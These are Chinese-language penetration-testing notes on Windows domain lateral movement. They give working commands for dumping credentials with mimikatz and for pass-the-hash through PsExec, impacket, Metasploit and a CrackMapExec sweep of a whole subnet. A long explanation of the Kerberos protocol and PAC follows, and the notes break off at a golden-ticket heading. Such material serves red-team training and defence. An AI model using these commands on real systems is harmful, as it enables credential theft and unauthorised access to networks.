




# 内网渗透

## Windows内网渗透

### 域信息收集命令

> query user || qwinsta		查看当前在线用户
>
> net user 		查看本机用户
>
> 

## 横向渗透

### PTH（pass-the-hash）

>  pass-the-hash在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。

**pass the hash原理：**

+ 在windows系统中，通常会使用NTLM身份认证
+ NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值是由系统API生成（例如LsaLogonUser）
+ hash分为LM hash 和NTLM hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista 和 Windows server 2008开始，微软默认禁用LM hash
+ 如果攻击者获得了hash，就能够在身份验证的时候模拟该用户（即跳过了调用API生成hash的过程）

**这类攻击适用于：**

+ 域/工作组环境
+ 可以获得hash，但是条件不允许对hash爆破
+ 内网中存在和当前机器相同的密码

> 微软也对pth 打过补丁，然而在测试中发现，在打了补丁后，常规的Pass The Hash 已经无法成功，唯独默认的`Administrator(SID 500)账号例外`，利用这个账号仍可以进行Pass The Hash 远程ipc 连接。
>
> 如果禁用了ntlm 认证，PsExec 无法利用获得的ntlm hash 进行远程连接，但是使用mimikatz 还是可以攻击成功。
> 从windows 到windows 横向pth 这一类攻击方法比较广泛。

**`mimiktaz`工具**

~~~
mimitkaz pth
privilege::debug
sekurlsa::logonpasswords 
或者直接把信息输出到password.txt文件中
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"> pass
word.txt
~~~

**得到hash后运行**

~~~
privilege::debug
sekurlsa::pth /user:administrtor /domain:workgroup /ntlm:32ed87bdb5fdc5e9cba88547376818d4
~~~

**成功后会弹出终端cmd**

**`psexec`工具**

> 简介：
>
> + psexec是Windows官方自带的，不会存在查杀问题，属于pstools；利用psExec可以在远程计算机上执行命令，其`基本原理`是通过管道在远程目标主机上创建一个psexec服务，并在本地磁盘中生成一个名为PSEXESVC的二进制文件，然后通过psexec服务运行命令，运行结果后删除服务。
> + 利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。对方开放445端口，就相当于开放了smb协议
>
> 

psexec第一种：先有ipc连接，psexec 需要明文或hash 传递

~~~
PsExec64.exe /accepteula /s \\192.168.0.123 -u Administrator -p 123456 cmd

-accepteula 第一次运行PsExec 会弹出确认框，使用该参数就不会弹出确认框
-s 以System 权限运行远程进程，如果不用这个参数，就会获得一个对应用户权限的shell直接直接执行回显
-u 域\用户名
-p 密码
~~~

上面是建立在明文之上

下面是在hash 下进行登录

~~~
psexec -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

**出现这个错误可以使用impacket 这个工具包下的psexec 进行利用**

~~~
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

**在使用PsExec 时需要注意以下几点：**

+ 需要远程系统开启admin$ 共享（默认是开启的）
+ 因为PsExec 连接的原理是基于IPC 共享，因此目标需要开放445 端口
+ 在使用IPC$ 连接目标系统后，不需要输入账户和密码。
+ 在使用PsExec 执行远程命令时，会在目标系统中创建一个psexec 的服务，命令执行完后，psexec 服务将被自动删除。由于创建或删除服务时会产生大量的日志，因此蓝队在溯源时可以通过日志反推攻击流程。
+ 使用PsExec 可以直接获得System 权限的交互式Shell 的前提目标是administrator 权限的shell
+ **在域环境测试时发现，非域用户无法利用内存中的票据使用PsExec 功能，只能依靠账号和密码进行传递。**

**登陆域管理命令：**

impacket 下的psexec

~~~
python3 psexec.py moonsec/Administrator@192.168.0.142
~~~

执行命令后输入密码
登陆其他主机管理员

~~~
psexec /accepteula /s \\12server1 -u Administrator -p 123456 cmd
~~~

**`使用msf hash 模块`**

~~~
use exploit/windows/smb/psexec
set SMBUser Administrator
set rhosts 192.168.0.141
set smbpass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
~~~

**`CrackMapExec`**

CrackMapExec 可以对C 段中的主机进行批量pth,项目地址：https://github.com/byt3bl33d3r/CrackMapExec.git

使用命令：

~~~
crackmapexec smb 192.168.0.0/24 -u administrator -H 32ed87bdb5fdc5e9cba88547376818d4
对192.168.9.0/24 C 段进行批量pass the hash

~~~

**`wmic`**

### PTT（pass the ticket）票据传递攻击

**Kerberos 协议& Kerberos 认证原理**

> Kerberos协议是一种计算机网络授权协议，用来在非安全的网络中，对个人通信以安全的手段进行身份认证。其设计目标是通过密钥系统为服务器和客户端应用程序提供强大的认证服务。该协议的认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下， Kerberos 作为一种可信任的第三方认证服务，是通过传统的密码技术（如：共享密钥）执行认证服务的。Kerberos 协议在在内网域渗透领域中至关重要，白银票据、黄金票据、攻击域控等都离不开Kerberos 协议。

**关键角色：**

| 角色                    | 作用                                                         |
| ----------------------- | ------------------------------------------------------------ |
| Domain Controller       | 域控制器，简称DC，一台计算机，实现用户、计算机的统一管理。   |
| Key Distribution Center | 秘钥分发中心，简称KDC，默认安装在域控里，包括AS 和TGS。      |
| Authentication Service  | 身份验证服务，简称AS，用于KDC对Client 认证。                 |
| Ticket Grantng Service  | 票据授予服务，简称TGS，用于KDC 向Client 和Server 分发Session Key（临时秘钥）。 |
| Active Directory        | 活动目录，简称AD，用于存储用户、用户组、域相关的信息。       |
| Client                  | 客户端，指用户。                                             |
| Server                  | 服务端，可能是某台计算机，也可能是某个服务。                 |

> 打个比方：当whoami 要和bunny 进行通信的时候，whoami 就需要向bunny 证明自己是whoami，直接的方式就是whoami 用二人之间的秘密做秘钥加密明文文字生成密文，把密文和明文文字一块发送给bunny，bunny 再用秘密解密得到明文，把明文和明文文字进行对比，若一致，则证明对方是whoami。
>
> 但是网络中，密文和文字很有可能被窃取，并且只要时间足够，总能破解得到秘钥。所以不能使用这种长期有效的秘钥，要改为短期的临时秘钥。那么这个临时秘钥就需要一个第三方可信任的机构来提供，即KDC（Key Distribution Center）秘钥分发中心。

**Kerberos 认证原理：**

首先我们根据以下这张图来大致描述以下整个认证过程：

1. 首先Client 向域控制器DC 请求访问Server，DC 通过去AD 活动目录中查找依次区分Client 来判断Client 是否可信。
2. 认证通过后返回TGT 给Client，Client 得到TGT（Ticket Granting Ticket）。
3. Client 继续拿着TGT 请求DC 访问Server，TGS 通过Client 消息中的TGT，判断Client 是否有访问权限。
4. 如果有，则给Client 有访问Server 的权限Ticket，也叫ST（Service Ticket）。
5. Client 得到Ticket 后，再去访问Server，且该Ticket 只针对这一个Server 有效。
6. 最终Server 和Client 建立通信。

下面讲一下详细的认证步骤，大概分为三个阶段：

+ ASREQ & ASREP
+ TGSREQ & TGSREP
+ AP-REQ & AP-REP

**ASREQ & ASREP**

该阶段是Client 和AS 的认证，通过认证的客户端将获得TGT 认购权证。

> 当域内某个客户端用户Client 视图访问域内的某个服务，于是输入用户名和密码，此时客户端本机的Kerberos 服务会向KDC 的AS 认证服务发送一个AS_REQ 认证请求。**请求的凭据是`Client 的哈希值NTLM-Hash 加密的时间戳`以及`Clientinfo`、`Server-info` 等数据，以及一些其他信息。**

> + 当Client 发送身份信息给AS 后，AS 会先向活动目录AD 请求，询问是否有此Client 用户，如果有的话，就会取出它的NTLM-Hash，并对AS_REQ 请求中加密的时间戳进行解密，如果解密成功，则证明客户端提供的密码正确，如果时间戳在五分钟之内，则预认证成功。然后`AS 会生成一个临时秘钥Session-Key AS`，并`使用客户端Client 的NTLM-Hash 加密Session-key AS `作为响应包的一部分内容。此Session-key AS 用于确保客户端和KGS 之间的通信安全。
>
> + 还有一部分内容就是TGT：`使用KDC 一个特定账户的NTLM-Hash 对Session-key AS、时间戳、Client-info 进行的加密`。这个`特定账户就是创建域控时自动生成的Krbtgt 用户`，然后将`这两部分以及PAC 等信息回复给Client`，即AS_REP。`PAC 中包含的是用户的SID、用户所在的组等一些信息`。
> + `AS-REP 中最核心的东西就是Session-key 和TGT`。我们平时用Mimikatz、kekeo、rubeus 等工具生成的凭据是.kirbi 后缀，Impacket 生成的凭据的后缀是.ccache。这两种票据主要包含的都是Session-key 和TGT，因此可以相互转化。
>
> **至此，Kerberos认证的第一步完成。**

**TGSREQ & TGSREP**

该阶段是Client 和TGS 的认证，通过认证的客户端将获得ST 服务票据。

> + 客户端Client 收到AS 的回复AS_REP 后分别获得了TGT 和加密的Session-Key AS。它会先用自己的Client NTLM-hash 解密得到原始的Session-Key AS，**然后它会在本地缓存此TGT 和原始的Session-Key AS**，如果现在它就需要访问某台服务器上的服务，他就需要凭借这张TGT 认购凭证向TGS 购买相应的ST 服务票据（也叫Ticket）。
> + 此时`Client 会使用Session-Key AS 加密时间戳、Client-info、Server-info 等数据作为一部分`。由于TGT 是用Krbtgt 账户的NTLM-Hash 加密的，Client 无法解密，所以`Client 会将TGT 作为另一部分继续发送给TGS`。两部分组成的请求被称为`TGS_REQ`。

> + TGS 收到该请求，`用Krbtgt 用户的NTLM-hash 先解密TGT 得到Session-key AS、时间戳、Client-info 以及Server-info`。再`用Session-key AS 解密第一部分内容，得到Client-info、时间戳。然后将两部分获取到时间戳进行比较`，如果时间戳跟当前时间相差太久，就需要重新认证。TGS 还会将这个Client 的信息与TGT 中的Client信息进行比较，如果两个相等的话，还会继续判断Client 有没有权限访问Server，如果都没有问题，认证成功。认证成功后，`KGS 会生成一个Session-key TGS`，`并用Session-key AS 加密Session-key TGS 作为响应的一部分`。此Session-key TGS 用于确保客户端和服务器之间的通信安全。
> + 另一部分是`使用服务器Server 的NTLM-Hash 加密Session-key TGS、时间戳以及Client-info 等数据生成的ST`。然后`TGS 将这两部分信息回复给Client`，即T`GS_REP`。
>
> **至此，Client和KDC的通信就结束了，然后是和server进行通信。**

**AP-REQ & AP-REP**

该阶段是Client 和TGS 的认证，通过认证的客户端将与服务器建立连接。

> + 客户端Client 收到TGS_REP 后，`分别获得了ST 和加密的Session-Key TGS`。它会先使用本地缓存了的Session-key AS 解密出了原始的Session-key TGS。然后`它会在本地缓存此ST 和原始的Session-Key TGS`，当客户端需要访问某台服务器上的服务时会向服务器发送请求。`它会使用Session-key TGS 加密Client-info、时间戳等信息作为一部分内容`。ST 因为使用的是Server NTLM-hash 进行的加密，无法解密，所以会原封不动发送给Server。两部分一块发送给Server，这个请求即是`AP_REQ`。

> + Server 收到AP_REQ 请求后，`用自身的Server NTLM-Hash 解密了ST`，得到Session-Key TGS，再解密出Client-info、时间戳等数据。然后与ST 的Clientinfo、时间戳等进行一一对比。`时间戳有效时间一般时间为8 小时`。通过客户端身份验证后，服务器Server 会拿着PAC 去询问DC 该用户是否有访问权限，DC 拿到
>   PAC 后进行解密，`然后通过PAC 中的SID 判断用户的用户组信息、用户权限等信息，然后将结果返回给服务端`，服务端再将此信息域用户请求的服务资源的ACL进行对比，最后决定是否给用户提供相关的服务。通过认证后Server 将返回最终的AP-REP 并与Client 建立通信。
>
> **至此，Kerberos认证流程基本结束**

**PAC:**

> + 我们在前面关于Kerberos 认证流程的介绍中提到了PAC（Privilege Attribute Certificate）这个东西，这是微软为了访问控制而引进的一个扩展，即特权访问证书。
> + 在上面的认证流程中，如果没有PAC 的访问控制作用的话，只要用户的身份验证正确，那么就可以拿到TGT，有了TGT，就可以拿到ST，有了ST ，就可以访问服务了。此时任何一个经过身份验证的用户都可以访问任何服务。`像这样的认证只解决了"Who am i?" 的问题，而没有解决"What can I do?" 的问题`。
> + 为了解决上面的这个问题，微软引进了PAC。`即KDC 向客户端Client 返回AS_REP时插入了PAC，PAC 中包含的是用户的SID、用户所在的组等一些信息`。**当最后服务端Server 收到Client 发来的AP_REQ 请求后，首先会对客户端身份验证。通过客户端身份验证后，服务器Server 会拿着PAC 去询问DC 该用户是否有访问权限，DC 拿到PAC 后进行解密，然后通过PAC 中的SID 判断用户的用户组信息、用户权限等信息，然后将结果返回给服务端，服务端再将此信息域用户请求的服务资源的ACL 进行对比，最后决定是否给用户提供相关的服务。**
>   + 但是在有些服务中并没有验证PAC 这一步，这也是白银票据能成功的前提，因为就算拥有用户的Hash，可以伪造TGS，但是也不能制作PAC，PAC 当然也验证不成功，但是`有些服务不去验证PAC，这是白银票据成功的前提。`

**Kerberos 认证中的相关安全问题概述:**

> Kerberos 认证并不是天衣无缝的，这其中也会有各种漏洞能够被我们利用，比如我们常说的MS14-068、黄金票据、白银票据等就是基于Kerberos 协议进行攻击的。下面我们便来大致介绍一下Kerberos 认证中的相关安全问题。

> **黄金票据（Golden ticket）**
>
> + 